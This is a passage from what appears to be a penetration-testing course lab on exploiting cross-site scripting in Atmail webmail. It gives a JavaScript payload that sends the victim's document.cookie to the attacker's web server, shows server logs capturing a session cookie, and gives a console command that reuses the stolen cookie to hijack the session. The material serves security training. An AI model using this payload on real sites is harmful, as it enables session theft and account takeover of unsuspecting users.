Since the target JavaScript file does not exist yet on our attacking machine, we see a 404 response from our web server.

kali@kali:~/atmail$ python -m SimpleHTTPServer 9090
Serving HTTP on 0.0.0.0 port 9090 ...
192.168.119.120 - - [30/May/2018 10:54:40] code 404, message File not found
192.168.119.120 - - [30/May/2018 10:54:40] "GET /atmail-session.js HTTP/1.1" 404 -
Listing 10 - The webserver responds with a 404 HTTP code as expected.

Our next step is to create a JavaScript file containing the code that allows us to retrieve the session cookies. One way to accomplish this is to once again include a call to our HTTP server, but this time we can append the document.cookie parameter to the URL we are trying to retrieve.

To illustrate this idea, we will create the atmail-session.js file in the webroot directory of our attacking system with the following code (adjust the IP address as necessary):

function addTheImage() {
  var img = document.createElement('img');
  img.src = 'http://192.168.119.120:9090/' + document.cookie;
  document.body.appendChild(img);
}

addTheImage();
Listing 11 - JavaScript code to leak the cookie back to the attacking server

The JavaScript code shown above creates an instance of the Image element and sets the src attribute to point to the attacker's web server, passing the session cookie as a part of the URL string.

Once the payload executes on the victim's browser, we find that the JavaScript code attempted to retrieve a non-existent URL while, at the same time, disclosing the session cookie of the logged in Atmail user (Listing 12).

kali@kali:~/atmail$ python -m SimpleHTTPServer 9090
Serving HTTP on 0.0.0.0 port 9090 ...
192.168.119.120 - - [30/May/2018 11:11:06] "GET /atmail-session.js HTTP/1.1" 200 -
192.168.119.120 - - [30/May/2018 11:11:06] code 404, message File not found
192.168.119.120 - - [30/May/2018 11:11:06] "GET /atmail6=1fp0fjq4aa8sm5if934b62ptv6 HTTP/1.1" 404 -
Listing 12 - Stealing the webmail admin cookie

Now that we have stolen the cookie, we want to ensure that we can hijack the session with it.

First, we clear all the cookies in the browser. This can be done by changing the "Settings for Clearing History" in Firefox in the about:preferences#privacy section as shown in Figure 4.

Figure 4: Clearing browser history
Figure 4: Clearing browser history
Now we can restart Firefox and browse to the mail interface again.

Figure 5: Accessing the Atmail web interface after restarting Firefox
Figure 5: Accessing the Atmail web interface after restarting Firefox
At this point, you should be prompted to login. Let's attempt our session hijacking attack by running the following JavaScript code in the JavaScript console.

Note: Your stolen cookie will be different so you will need to update the value shown in the listing below.

javascript:void(document.cookie="atmail6=1fp0fjq4aa8sm5if934b62ptv6");
Listing 13 - JavaScript code to run in Firefox's JavaScript console.
